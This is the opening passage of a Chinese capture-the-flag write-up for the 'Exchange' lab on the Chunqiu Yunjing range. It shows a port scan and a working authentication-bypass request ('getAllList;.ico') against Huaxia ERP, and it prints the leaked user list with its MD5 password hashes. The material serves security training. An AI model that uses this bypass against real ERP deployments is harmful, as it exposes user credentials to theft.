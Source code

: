 

# 内网渗透之春秋云镜（2）-Exchange - 先知社区

内网渗透之春秋云镜（2）-Exchange

- - -

# 春秋云镜—Exchange

## flag1

入口：39.99.157.194

fscan 扫一下

[![](assets/1707954377-4bee365b0fc73e955fec929cdb8d357e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173723-ffd52304-c340-1.png)

发现一个存活的 8000 端口，访问一下

[![](assets/1707954377-bff830fe31764d29620a6bb5d6b0c65e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173729-037d44aa-c341-1.png)

登录界面是个华夏 ERP，有个信息泄露可以泄露用户密码：

```bash
http://39.98.108.154:8000/user/getAllList;.ico
{"code":200,"data":{"userList":[{"id":63,"username":"季圣华","loginName":"jsh","password":"e10adc3949ba59abbe56e057f20f883e","position":"","department":null,"email":"","phonenum":"","ismanager":1,"isystem":1,"status":0,"description":"","remark":null,"tenantId":63},{"id":120,"username":"管理员","loginName":"admin","password":"e10adc3949ba59abbe56e057f20f883e","position":null,"department":null,"email":null,"phonenum":null,"ismanager":1,"isystem":0,"status":0,"description":null,"remark":null,"tenantId":null},{"id":131,"username":"测试用户","loginName":"test123","password":"e10adc3949ba59abbe56e057f20f883e","position":"","department":null,"email":"","phonenum":"","ismanager":1,"isystem":0,"status":0,"description":"","remark":null,"tenantId":63}]}}
```

